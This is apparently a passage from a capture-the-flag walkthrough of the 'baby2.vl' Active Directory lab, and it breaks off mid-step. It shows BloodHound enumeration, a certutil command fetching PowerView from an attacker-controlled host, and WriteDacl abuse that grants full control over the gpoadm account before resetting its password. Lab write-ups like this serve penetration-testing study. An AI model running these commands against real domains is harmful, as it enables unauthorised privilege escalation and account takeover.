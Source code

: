 
```bash
bloodhound-python -d 'baby2.vl' -u 'library' -p 'library' -c all -ns 10.10.77.235 --zip
```

```bash
sudo neo4j start
```

```bash
bloodhound
```

Here is user amelia that we got
---
![Screenshot](Pasted%20image%2020250910002715.png)



let’s see shortest path to domain admin
![Screenshot](Pasted%20image%2020250910002818.png)


we have amelia which is member of **LEGACY** , it has **WriteDacl** on **GPOADM**

let’s see how to abuse **WriteDacl**

```
:\temp>certutil -urlcache -split -f "http://10.8.7.96:8001/PowerView-Dev.ps1" PowerView-Dev.ps1

```

## Step 13 – Domain Object ACL Abuse

### 1️⃣ Granting Yourself Full Control over `gpoadm`

```bash
Add-DomainObjectAcl -TargetIdentity "gpoadm" -PrincipalIdentity amelia.griffiths -Domain baby2.vl -Rights All -Verbose
```

- **Target:** `gpoadm` (likely a privileged GPO admin account).
    
- **Principal:** `amelia.griffiths` (your current user).
    
- **Rights:** `All` → full control over the object in Active Directory.
    

**What this does:**

- You’ve effectively **added yourself as a powerful actor over `gpoadm`**.
    
- Now you can **reset the password** or manipulate that account.
    

 # **Setting a New Password for `gpoadm`**

First, you created a secure string for the password:

```bash
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
